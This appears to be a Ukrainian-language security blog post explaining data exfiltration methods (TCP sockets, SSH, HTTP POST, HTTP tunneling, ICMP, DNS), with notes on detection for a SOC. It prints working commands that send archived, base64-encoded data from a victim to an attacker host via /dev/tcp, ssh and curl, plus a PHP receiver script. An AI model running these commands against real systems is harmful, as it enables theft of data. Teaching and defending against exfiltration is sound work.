 ```yaml
---
title: Exfiltration
date: 2024-06-19 12:00:00 -500
categories: [basics]
tags: [cyber, exfiltration]
image:
  path: /assets/img/articles/exfiltration-main.jpeg
  alt: puppet main
---
```


Ультимативною метою кожного хто атакує вашу мережу є **дані**. 

Як тільки хакер опиняється і закріплюється у системі він приступає до пошуку сервера файлів чи бази даних. Втім, крім отримання доступу до даних треба ще їх безпечно передати собі.


Якщо підходити до цього процесу бездумно - можна доволі легко попасти під увагу систем виявлення. Погодьтесь доволі незвично коли з email сервера раптом починає йти HTTPS трафік - люди не використовують email сервер щоб серфити інтернет.
Тим не менш, якщо трафік сервера не логується - служба безпеки ніколи не дізнається що із сервером щось не так. Тому варто знати та розуміти можливі слабкі місця системи 

Досвідчений хакер буде намагатись приховати дані що йдуть з сервера, щоб він виглядав як звичайний щоденний трафік. Наприклад спочатку передати дані із email сервера на робочу станцію де HTTPS трафік не буде чимось незвичним, далі злити до себе на віддалений сервер.

Крім типу трафіку звісно ще має значення його обʼєм, кілька мегабайт бази даних легко загубляться у мережі, втім кілька терабайт нового серіалу (як було при зламі Sony Pictures) то вже інша справа. Тож на ці метрики також варто звертати уваги у вашому SOC.

Розглянемо кілька цікавих методик отримання даних із мережі. Десь я буду просто згадувати що такий протокол є, десь трохи глибше його розглядати якщо механізм не стандартний.

Є три типових сценарія із якими стикається нападник:
1. Традиційна ексфільтрація даних - в даному випадку робиться один чи кілька мережевих запитів (залежить від розміру даних). Дані йдуть із мережі назовні, і запити не потребують відповіді.

2. Command and Control (C2) - фреймворки які дозволяють встановити звʼязок із компом жертви через (не)стандартні протоколи. Дозволяють як надсилати, так і отримувати відповіді на запити. Це як звичайна reverse shell, але більш просунуте і з дефолтними протоколами (HTTPS, DNS) 

3. Tunneling - хакер користується техніками ексфільтраціх щоб встановити звʼязок між компами. Канал виступає мостом який дозволяє хакеру отримати доступ до всієї мережі (прокся). Трафік гуляє по мосту весь час.

# Приклади використання
1) **TCP socket** - метод що використовується у не дуже захищенних мережах. Його доволі легко виявити так як використовується не стадартні протоколи. Також нам треба додатково шифрувати дані що передаються. Тут можно побачити приклад такої передачі даних

```bash
# відкриваємо порт і перенаправляємо у файл те що на нього прилетить
l33t@attacker$ nc -lvp 8080 > /tmp/data-creds.data

# відправляємо дані з пк жертви перед тим запакував теку target, ip адреса для прикладу
user@victim:$ tar zcf - data/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080 

# розшифровуємо та розпаковуємо дані в себе
l33t@attacker:/tmp/$ dd conv=ascii if=data-creds.data |base64 -d > data-creds.tar
```

2) **SSH** - гарний метод, шифрований канал. Як варіант це звісно SCP, але уявимо що його немає. Тоді є також варіант передачи кліентом. Тут можна побачити техніку виконання

```bash
   user@victim:$ tar cf - data/ | ssh l33t@attacker "cd /tmp/; tar xpf -"
```
3) **HTTP(S)** - також гарний варіант якщо такий тип трафіка притаманний хосту. Звісно краще користуватись шифрованою версію протоколу. Звичайний HTTP трафік від зловмісного доволі важко відрізники, втім для надійності треба використовувати POST запит. 
Всі параметри GET запита потрапляють у лог файл, тож це залишає по собі слід. 
Інші переваги POST:
1. Запити не кешуються
2. Запити не залишаються у історії браузера
3. Вони не обмежені за розміром (теоретично, втім ліміт може бути десь 2ГБ)

Як курлом користуватись ви знаєте, тож простий приклад.

```php
# web server kinda
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```
```bash
# exfiltration:
curl --data "file=$(tar zcf - task6 | base64)" http://server/contact.php
# correct broken base64
sudo sed -i 's/ /+/g' /tmp/http.bs64
```
**HTTP Tunneling** - зазвичай у мережі є кілька хостів що не мають доступу до Інтернету, наприклад сервер БД, зазвичай йому треба доступ лише до бекенду.
Втім ви можете перетворити один із внутрішніх хостів на проксі і через HTTP та мати змогу досліджувати хости зі своєї машини.
Для цього можно використовувати **Neo-reGeorg**.

 Тула генерує сервер-кліент під відомі веб сервери, далі ви підключаєтесь до хоста як socks5. 

![Socks5](/assets/img/articles/exfiltration-socks5.jpeg)
__Tunneling Example__

4) **ICMP** - цей метод цікавий тим що ICMP не є транспортним протоколом. Тому не дуже очевидний під час аналізу трафіку. Плюс доволі часто він дозволений та включений у мережі. Хоча на сучасних Windows системах і заблочений за замовчуванням.

Якщо ми подивимось у спеціфікацію протоколу, або навіть просто на пакет у Wireshark, то помітимо там 16 hex байтів секції Data. Зазвичай вона заповнена рандомними даними.
![ICMP](/assets/img/articles/exfiltration-icmp-spec.jpeg)
__ICMP Spec__

Втім на linux системах у ping є ключ -p завдяки якому ми можемо розмістити там свої дані. Згідно мануалу ця функція корисна щоб діагностувати проблеми із даними в мережі. Виглядає це так:
![Ping](/assets/img/articles/exfiltration-ping-example1.jpeg)
__Ping example__
![Ping](/assets/img/articles/exfiltration-ping-example2.jpeg)
__Ping example__

Звісно це лише приклад щоб пояснити механізм. Для передачі файлів він не підходе, як мінімум тому що для цього треба розділяти файл на частини та надсилати. Щоб зробити це автоматично у **Metasploit є модуль - auxiliary/server/icmp_exfil**

5) Останній варіант що ми розглянемо сьогодні - **DNS**.
Техніка яка доволі часто використовується у Bug Bounty, з допомогою неї доволі просто перевірити чи щось "відстукує" з атакуємого сервера до вас внаслідок ваших маніпуляцій із ним.

Отже як це працює:
1. Хакер заводить собі домен над яким має повний контроль (або користується сервісами типу [webhook](https://webhook.site)
2. Кодує данні що треба надіслати
3. Використовує ці дані як сабдомен (обмеження в 255 сиволів на весь урл)
4. Робить запит за допомогою dig (використовується для опитування DNS-серверів і отримання записів про домен, що запитується)
5. Дані прилітають у вигляді dns запиту на сервер зловмисника

Такий принцип роботи механізму вручну, власне ми можемо направляти інформацію і в іншу сторону, якщо додамо ії в TXT запис домену. На цьому побудована робота деяких C2 тулів що працюють через DNS.

Втім існують також варіанти створення туннеля через так звані TCP over DNS. Наприклад можете почитати про iodine, дуже цікава історія. Хакінг як він є.

Я розглянув деякі приклади для того щоб дати вам зрозуміти наскільки можливо користуватись інструментами щоб здавалось б не створені для цього. Достатньо мислити ширше, власне в цьому і є все цікаве.

Я не чіпав методи по типу ексфільтрації даних через звукові хвилі які людина не чує, хоча вони і актуальні у ізольованих середовищах. 
Втім існує і таке) Успіхів.
